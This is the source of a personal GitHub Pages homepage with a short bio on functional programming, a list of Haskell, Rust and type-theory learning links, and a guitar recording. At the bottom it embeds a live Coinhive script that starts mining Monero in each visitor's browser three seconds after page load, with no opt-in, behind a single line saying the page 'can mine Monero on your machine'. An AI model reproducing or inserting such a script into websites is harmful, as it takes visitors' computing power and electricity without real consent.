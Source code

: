 ```yaml
---
layout:
---
```

Welcome to the user site of [github/bohadi](https://github.com/bohadi).<br>

I am interested in engineering effective software using<br>
functional programming, type theory, and category theory.

<!--
compilers, blockchain, gpgpu

also ai/ml, genomics, 3d games

contact me
bohadi@users.noreply.github.com
-->

helpful learning resources:<br>
[Parallel and Concurrent Programming in Haskell](http://chimera.labs.oreilly.com/books/1230000000929/index.html)<br>
[Practical Foundations for Programming Languages](http://www.cs.cmu.edu/~rwh/pfpl.html)<br>
[Category Theory For Programmers](https://bartoszmilewski.com/2014/10/28/category-theory-for-programmers-the-preface/)<br>
[What I Wish I Knew When Learning Haskell](http://dev.stephendiehl.com/hask/)<br>
[Homotopy Tye Theory](https://homotopytypetheory.org/book/)<br>
[The Rust Programming Language](https://doc.rust-lang.org/stable/book/second-edition/)<br>
[The Glasgow Haskell Compiler - Archicture of Open Source Applications](http://www.aosabook.org/en/ghc.html)<br>
[Annual topics, Oregon Programming Languages Summer School](https://www.cs.uoregon.edu/research/summerschool/summer17/topics.php)<br>
[nLab wiki](https://ncatlab.org/nlab/show/HomePage)<br>
[Arch Linux wiki](https://wiki.archlinux.org/)<br>
[r/haskell](http://www.reddit.com/r/haskell)<br>
[r/rust](http://www.reddit.com/r/rust)<br>


more nice links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[SEP/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>


I enjoy playing the guitar, here is a short recording.

<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

<br>

Thank you for visiting.<br>
Finally, this page can mine Monero on your machine.<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML =
          'Connected... ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error. Miner stopping.';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second:  '   + miner.getHashesPerSecond().toFixed(0) + '<br>' +
          ' total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error (adblock). Miner stopping.';
    }
  }, 3000);
</script>

<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
